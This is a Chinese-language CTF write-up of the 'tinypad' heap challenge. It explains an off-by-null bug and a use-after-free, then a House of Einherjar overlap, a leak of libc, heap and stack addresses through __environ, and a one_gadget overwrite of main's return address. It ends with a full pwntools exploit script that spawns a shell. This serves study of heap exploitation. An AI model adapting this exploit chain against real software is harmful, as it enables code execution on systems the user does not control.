

这是道House of Einherjar

<!--more-->

64位堆题，NO PIE，其他都开了。

House of Einherjar

在read_until函数中存在off by null，当读入size字节并且没有遇到结束符时，会**多写一个\x00**。

```c
unsigned __int64 __fastcall read_until(__int64 buf, unsigned __int64 size, unsigned int end_char)
{
  unsigned __int64 i; // [rsp+28h] [rbp-18h]
  __int64 v6; // [rsp+30h] [rbp-10h]

  for ( i = 0LL; i < size; ++i )
  {
    v6 = read_n(0, buf + i, 1uLL);
    if ( v6 < 0 )
      return -1LL;
    if ( !v6 || *(char *)(buf + i) == end_char )
      break;
  }
  *(_BYTE *)(buf + i) = 0;                      // 正常结束循环会多写一个\x00，off by null
  if ( i == size && *(_BYTE *)(size - 1 + buf) != 10 )
    dummyinput(end_char);
  return i;
}
```

tinypad结构体:

```c
struct tinypad
{
    int size;   //8byte
    char content[size]; //malloc
}
```

这个程序具有add、free、edit、show功能，其中show是程序自带的，在输入命令之前会先输出所有的content。

需要重点关注的是tinypad的数组，以tinypad[16*idx+0x100/0x108]的形式利用。idx==1也就是第一个tinypad的size是在tinypad[0x110]的位置，每一项总共也就0x10的空间，而前面0x110的空间是留给edit功能的。

由于存在off by null，因此我们可以修改prev_size和prev_inuse并触发前向合并来造成overlapping。

最多能同时有4个chunk，最大的size为0x100。

edit功能比较复杂，在检验输入之后，会将该chunk用strcpy复制到tinypad偏移为0的位置进行操作，并且**edit的长度和已经写入的字符串的长度相等**，写入完成后才会将tinypad处的内容strcpy到chunk。由于strcpy会被\x00截断，因此如果该chunk中有地址的话，edit的长度会比较小。

```c
write_n((__int64)"(INDEX)>>> ", 11LL);    // Edit
idx = read_int();
if ( idx <= 0 || idx > 4 )
    goto LABEL_29;
if ( !*(_QWORD *)&tinypad[16 * idx + 0xF0] )
    goto LABEL_31;
c = '0';
strcpy(tinypad, *(const char **)&tinypad[16 * idx + 0xF8]);// edit时会将其复制到tinypad中进行操作
while ( toupper(c) != 'Y' )
{
    write_n((__int64)"CONTENT: ", 9LL);
    v6 = strlen(tinypad);
    writeln((__int64)tinypad, v6);          // 会先输出原有的content
    write_n((__int64)"(CONTENT)>>> ", 13LL);
    len = strlen(*(const char **)&tinypad[16 * idx + 0xF8]);// 直接取字符串的len值作为长度
    read_until((__int64)tinypad, len, '\n');// off by null
    writeln((__int64)"Is it OK?", 9LL);
    write_n((__int64)"(Y/n)>>> ", 9LL);
    read_until((__int64)&c, 1uLL, 0xAu);
}
strcpy(*(char **)&tinypad[16 * idx + 0xF8], tinypad);
writeln((__int64)"\nEdited.", 8LL);
```

同时释放的函数处也有些小问题（UAF），释放之后没有清空chunk指针，有悬挂指针。虽然有标志位让其在edit的时无法通过检查，但在菜单处没有检查，会照常输出content的内容。

```c
free(*(void **)&tinypad[16 * idx + 0xF8]);// 释放但没请0，不过有标志位edit时也能检查到，不过会照常输出
*(_QWORD *)&tinypad[16 * idx + 0xF0] = 0LL;// 0代表没使用
writeln((__int64)"\nDeleted.", 9LL);
```

在这里可以通过UAF泄露出当前的heapbase和libcbase。

一开始尝试释放两个unsorted bin chunk后，**一个的fd指向的是一个堆地址（下一个chunk的地址），另一个fd指向的是unsorted bin头**，通过菜单显示出来。在实际中发现这样需要让两个释放的chunk不连续，并且中间要隔着一个size<0x100的chunk，否则堆地址的低位会是\x00，输出不出来。

其实也可以通过释放两个fast bin chunk来泄露堆地址，释放一个unsorted bin chunk来泄露libc。

在泄露了libcbase和heapbase之后，可以通过House of Einherjar实现overlapping。之后通过fast bin attack修改__malloc_hook为onegadget应该就可以get shell了。不过由于此处edit的特殊性，无法用于修改hook（hook处全为'\x00'，因此len为0，不能写入东西），所以尝试overlapping到tinypad的位置，控制堆指针获得任意写。

这里可以利用edit来在tinypad处构造fake chunk，由于**edit会先在tinypad处写入数据**，因此我们可以在此处写入。除此之外**tinypad[0x110]开始就存放了chunk，tinypad[0x110]就是第一个chunk的size**，我们可以不用构造next chunk size。

为了控制堆指针，我们可以在0x602060处构造fake chunk，让其覆盖到堆指针(size位要为0x101)，并让第三个chunk的size为0x100。

```python
# House of einherjar

tinypad=0x602040

fake_chunk = tinypad+0x20 #0x602060
offset=heapbase-fake_chunk+0x50 #计算释放的idx2和fakechunk的偏移

add(0x48,'a'*0x48)#idx1 用于off by null
add(0xf0,'b'*0xf0)#idx2 用于触发house of einherjar
add(0x100,'c'*0x100)#idx3 让0x602160的位置是0x100，使得fake chunk的size和next chunk的presize一致
add(0xf0,'d'*0xf0)#idx4

#construct fake chunk
payload='a'*0x20+p64(0)+p64(0x101)+p64(fake_chunk)+p64(fake_chunk)#fd和bk指向自己，绕过检查
edit(1,payload)

free(1)
payload='a'*0x40+p64(offset)#off by null
add(0x48,payload)

free(2)# 触发house of einherjar

payload='a'*0x20+p64(0)+p64(0x101)+p64(malloc_hook+0x10+88)+p64(malloc_hook+0x10+88)
#不知道为什么如果不修改不能malloc，可能fd或者bk有错?
edit(3,payload)

```

在这之后，fake chunk就被释放合并到了unsorted bin中，下一次malloc会从中获取内存。



然后就可以尝试get shell了，但这里有有些麻烦，由于开启了FULL RELRO，因此无法改写GOT表项，并且程序没有使用stdio，对FILE_IO的利用也不行，不过在libc中有一个全局变量**__environ**，储存着该程序环境变量的地址，而环境变量是储存在**栈**上的，所以可以泄露栈地址，所以可以控制rip。

**在__environ中的第一个位置上有一个栈地址，而这个栈地址距离main_ret（主程序返回操作）的距离是一个固定的偏移：8*30(*__environ-240)**，所以这里就可以找到main_ret的地址，之后我们修改它执行one_gadget即可getshell。


```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./pwn2")
libc=ELF("./libc-2.23.so")
p=process("./pwn2")

def debug():
	gdb.attach(p)
	pause()

def add(size,content):
	p.recvuntil("(CMD)>>> ")
	p.sendline('a')
	p.recvuntil("(SIZE)>>> ")
	p.sendline(str(size))
	p.recvuntil("(CONTENT)>>> ")
	p.sendline(str(content))

def free(idx):
	p.recvuntil("(CMD)>>> ")
	p.sendline('d')
	p.recvuntil("(INDEX)>>> ")
	p.sendline(str(idx))

def edit(idx,content):
	p.recvuntil("(CMD)>>> ")
	p.sendline('e')
	p.recvuntil("(INDEX)>>> ")
	p.sendline(str(idx))
	p.recvuntil("(CONTENT)>>> ")
	p.sendline(str(content))
	p.recvuntil("(Y/n)>>> ")
	p.sendline("y")
	#return data

def show(idx):
	p.recvuntil(" #   INDEX: "+str(idx)+'\n')
	p.recvuntil(" # CONTENT: ")
	

add(0xf0,'a'*0xf0)#idx1
add(0x60,'b'*0x60)#idx2
add(0xf8,'c'*0xf8)#idx3
add(0xf0,'d'*0xf0)#idx4


# leak libc and heap base
free(3)
free(1)

show(1)
heapbase=u64(p.recvuntil('\n')[1:-1].ljust(7,'\x00').rjust(8,'\x00'))-0x100
log.info(hex(heapbase))


show(3)
malloc_hook=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))-88-0x10
libcbase=malloc_hook-libc.sym['__malloc_hook']
log.info(hex(libcbase))


free(2)
free(4)

# House of einherjar

tinypad=0x602040

fake_chunk = tinypad+0x20
offset=heapbase-fake_chunk+0x50

add(0x48,'a'*0x48)#idx1
add(0xf0,'b'*0xf0)#idx2
add(0x100,'c'*0x100)#idx3
add(0xf0,'d'*0xf0)#idx4

#construct fake chunk
payload='a'*0x20+p64(0)+p64(0x101)+p64(fake_chunk)+p64(fake_chunk)
edit(1,payload)

free(1)
payload='a'*0x40+p64(offset)
add(0x48,payload)

free(2)

payload='a'*0x20+p64(0)+p64(0x101)+p64(malloc_hook+88+0x10)+p64(malloc_hook+88+0x10)
edit(3,payload)

#get shell

one_gadget=[0x45226,0x4527a,0xf03a4,0xf1247]

#reset heap addr
environ_addr=libcbase+libc.symbols['__environ']
log,info(hex(environ_addr))
payload='a'*(0x100-0x30)+p64(0x100)+p64(environ_addr)+p64(0x100)+p64(0x602148)

add(0xf8,payload)

#leak __environ
show(1)
stack_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
log.info("stack: "+hex(stack_addr))


edit(2,p64(stack_addr-240))
edit(1,p64(libcbase+one_gadget[0]))

#debug()

p.recvuntil("(CMD)>>> ")
p.sendline('q')

p.interactive()

# 0x45226 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL

```
